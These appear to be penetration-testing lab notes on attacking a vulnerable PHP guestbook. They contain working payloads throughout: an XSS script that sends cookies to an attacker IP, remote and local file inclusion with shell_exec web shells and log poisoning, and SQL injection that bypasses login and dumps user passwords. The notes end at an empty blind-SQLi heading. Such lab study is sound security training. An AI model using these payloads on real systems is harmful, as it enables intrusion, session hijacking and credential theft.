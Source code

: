 #Webapps

##Getting Started
1. Start XAMPP and apache/mysql

2. Navigate to the host in your webbrowser (should be a guestbook application)

## XSS
The sign in page isn't filtered and so you can submit javascript which will run when someone views your comment

In this case I posted `<script>alert("XSS");</script>` which when viewed simply pops up the message "XSS"

XSS can be leveraged to do many things but as an example...

1. Create a comment with an iframe pointing to your ip `<iframe src="http://yo.ur.ip.addr:81/report" width="0" height="0"></iframe>`

2. Setup a listener on your machine `nc -lvp 81` 

3. visit the site from a victims machine and you will see a connection, you can use this to exploit the browser, gather information or grab cookies

**Grabbing Cookies**

1. Submit a comment with the following JS `<script> new Image().src="http://10.11.0.74:81/bogus.php"+document.cookie; </script>`

2. Setup a listener on your machine `nc -lvp 81` 

3. Visit the page as an admin

3. You will see that the cookie has been appended to the url your listener picks up

4. We can steal this cookie and login as the user, edit cookies using your browsers console `document.cookie = "PHPSESSID=34015asdsad08f566d00635a6e8ae98"`

## Remote File Inclusions
1. Whilst testing the website we notice that the language dropdown on the signin page appears to grab data from a file

2. We can see this on examining the source code

   ```
   if (isset( $_GET['LANG'] )) { 
     $lang = $_GET['LANG'];
   } else { 
     $lang = 'en';
   }
   include( $lang . '.php' );
   ```

3. We can see the parameters in the URL so tweaking the lang param to our own file is trivial

   `http://10.11.5.115/addguestbook.php?name=hacker&comment=test&LANG=fr&Submit=Submit`
   `http://10.11.5.115/addguestbook.php?name=hacker&comment=test&LANG=http://10.11.0.74/evil.txt&Submit=Submit`

4. Create our evil file `echo '<?php echo shell_exec("ipconfig"); ?>' >> /var/www/evil.txt`

5. Start apache `service apache2 start`

6. When we navigate to the site we can see that the script appended `.php` onto the end of our request

7. We can get around this by using a null byte (which works in php <=5.3) and causes php to ignore everything after it

   `http://10.11.5.115/addguestbook.php?name=hacker&comment=test&LANG=http://10.11.0.74/evil.txt%00&Submit=Submit`

8. Navigate again to the site and we get the output of the ipconfig command


**Notes**
Might be turned off in php.ini file look for `allow_url_fopen` and `allow_url_include`

##Local File Inclusion
Even with remote file includes turned off it's still possible to run local files and it may be possible to posion log files in order to run php of our choosing.

1. Connect to the webserver using nc `nc -nv 10.11.5.115 80` and paste `<?php echo shell_exec($_GET['cmd']); ?>`

2. Check the access log  on your victims machine to confirm you have posioned the log file 

3. We can now attempt to include the log by navigating to

    `http://10.11.5.115/addguestbook.php?name=hacker&comment=test&cmd=ipconfig&LANG=../../../../../../../xampp/apache/logs/access.log%00&Submit=Submit`

##SQL Injection (SQLi)

**Authentication Bypass**
Fairly simply hack our goal is to change a query from `SELECT * FROM USERS WHERE username="admin" AND password="XXXX"` to `SELECT * FROM USERS WHERE username="admin" or 1=1;#" AND password="XXXX"`

Once we gain control we can use limit's to ensure we only get one record if necessary

**Error Based Enumeration**
1. Test a field using `'` or `"` if you can see the errors you can glean extra information

2. Using order by you can manipulate the SQL to let you know how many columns are in the table 

    i.e at url `http://10.11.5.115/comment.php?id=738 order by 7` we run the SQL `SELECT * FROM guestbook where id = 738 order by 7` giving us the error `Unknown column '7' in 'order clause'`

3. Now that we now the number of columns in the table we can use `union all` to interegrate the data, remember that we need to return the same number of columns in our union

4. Using a basic union we will tag our columns to find out which/where they might be output

    `http://10.11.5.115/comment.php?id=738 UNION SELECT 1,2,3,4,5,6`

5. Now we can start enumerating using our union statements

    Version: `10.11.5.115/comment.php?id=738 UNION SELECT 1,2,3,4,@@version,6`
    User: `10.11.5.115/comment.php?id=738 UNION SELECT 1,2,3,4,user(),6`

6. In this case we are running as root so we can enumerate more heavily

    All Tables: `10.11.5.115/comment.php?id=738 UNION SELECT 1,2,3,4,table_name,6 FROM information_schema.tables`
    Get columns for a specific table: `10.11.5.115/comment.php?id=738 UNION SELECT 1,2,3,4,column_name,6 FROM information_schema.columns where table_name="users"`

7. Then it's just a case of dumping data of that table

    `http://10.11.5.115/comment.php?id=738%20UNION%20SELECT%201,2,name,4,password,6%20FROM%20users`

##Blind SQL Injection
